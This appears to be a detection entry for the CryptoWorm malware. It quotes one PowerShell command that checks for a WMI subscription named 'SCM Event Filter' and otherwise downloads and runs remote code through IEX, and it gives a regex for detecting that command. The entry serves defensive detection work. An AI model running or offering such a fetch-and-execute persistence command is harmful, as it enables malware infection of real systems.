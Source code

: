 ## CryptoWorm


#### Commands
---

* Powershell.exe

1.
```
"if(!([string](Get-WMIobject -Namespace root\Subscription -Class __FilterToConsumerBinding )).contains('SCM Event Filter')) {IEX(New-Object Net.WebClient).DownloadString('[URL]')}"
```

#### Regular Expressions
---

``
^(?=.*\bWMIobject\b)(?=.*\bSCM\b)(?=.*\bIEX\b)(?=.*\bDownloadString\b).*$
``

#### Resources
---

Technical write-ups:
* https://securityaffairs.co/wordpress/63488/malware/advanced-memory-cryptoworm.html

Sandbox reports:
* 

Notes:



 
